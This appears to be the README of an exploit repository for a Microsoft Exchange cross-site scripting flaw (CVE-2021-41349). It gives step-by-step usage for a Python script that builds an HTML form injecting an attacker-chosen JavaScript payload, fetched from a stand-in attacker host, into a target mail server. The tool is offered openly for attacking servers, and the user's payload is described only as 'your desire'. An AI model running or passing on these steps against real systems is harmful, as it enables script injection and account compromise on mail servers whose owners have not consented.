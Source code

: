 # Microsoft Exchange Exploit CVE-2021-41349
Exploiting: CVE-2021-41349
This exploiting tool creates a Form for posting XSS Payload to the target Exchange server.
You need to create a `js` containing your desire to do.

# Usage
1. Create Your `js` Payload and upload it somewhare.
2. run the `CVE-2021-41349.py` same as following steps.
```shell
python3 CVE-2021-41349.py "https://mail.target.com" "https://hacker.server/payload.js" out.html
```
or:
```shell
./CVE-2021-41349.py "https://mail.target.com" "https://hacker.server/payload.js" out.html
```
3. Upload The `html` file into server.
4. Done! Test it!

# Credits
* [@exploitio](https://twitter.com/exploitio)